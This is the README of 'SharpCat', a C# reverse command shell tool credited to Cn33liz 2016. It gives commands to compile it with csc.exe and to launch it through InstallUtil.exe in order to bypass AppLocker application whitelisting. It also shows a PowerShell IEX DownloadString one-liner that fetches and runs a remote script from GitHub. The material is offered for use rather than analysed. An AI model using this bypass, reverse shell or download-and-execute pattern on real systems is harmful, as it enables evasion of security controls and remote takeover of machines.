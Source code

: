 ```
  _________.__                        _________         __   
 /   _____/|  |__ _____ _____________ \_   ___ \_____ _/  |_ 
 \_____  \ |  |  \\__  \\_  __ \____ \/    \  \/\__  \\   __\
 /        \|   Y  \/ __ \|  | \/  |_> >     \____/ __ \|  |  
/_______  /|___|  (____  /__|  |   __/ \______  (____  /__|  
        \/      \/     \/      |__|           \/     \/      
                                                        v0.1
```

A Simple Reversed Command Shell which can be started using InstallUtil (Bypassing AppLocker) - by Cn33liz 2016

Compile:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /out:"C:\Utils\SharpCat.exe" /platform:anycpu "C:\Utils\SharpCat.cs"
```

To Bypass Applocker:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SharpCat.exe
```

### How to use it:

Within the Remote Command Shell you can run PowerShell commands as follow:
```
C:\>PowerShell "Get-Help Invoke-*"
```
Or
```
C:\>PowerShell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/trollsploit/Get-RickAstley.ps1'); Get-RickAstley" 
```
